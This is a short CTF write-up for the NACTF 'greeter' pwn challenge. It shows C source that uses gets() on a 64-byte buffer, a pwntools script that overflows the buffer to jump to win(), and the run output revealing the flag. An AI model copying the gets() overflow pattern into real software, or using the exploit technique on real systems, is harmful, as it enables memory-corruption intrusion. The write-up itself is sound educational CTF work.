

## NACTF: greeter [pwn]


```c
#include <stdio.h>
#include <stdlib.h>

void win() {
	puts("congrats! here's your flag:");
	char flagbuf[64];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL) {
		puts("flag file not found!");
		exit(1);
	}
	fgets(flagbuf, 64, f);
	fputs(flagbuf, stdout);
	fclose(f);
}

int main() {
	/* disable stream buffering */
	setvbuf(stdin,  NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	char name[64];

	puts("What's your name?");
	gets(name);
	printf("Why hello there %s!\n", name);

	return 0;
}
```
#### This was the baby pwn for this ctf, we were provided with the binary along with its source code. Basically there is a buffer overflow vuln and a function that prints out the flag for us. Simply overflow the buffer to overwrite the instruction pointer with the address of win.

```python
from pwn import *

#
p = remote('challenges.ctfd.io', 30249)
print(p.recv())

#: 
exploit = cyclic(72)
exploit += p64(0x401220)
p.sendline(exploit)

print(p.recv())
print(p.recv())
```
```
$ python exploit.py
[x] Opening connection to challenges.ctfd.io on port 30249
[x] Opening connection to challenges.ctfd.io on port 30249: Trying 159.203.148.124
[+] Opening connection to challenges.ctfd.io on port 30249: Done
What's your name?


Why hello there aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa @!
congrats! here's your flag:
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}

[*] Closed connection to challenges.ctfd.io port 30249
```
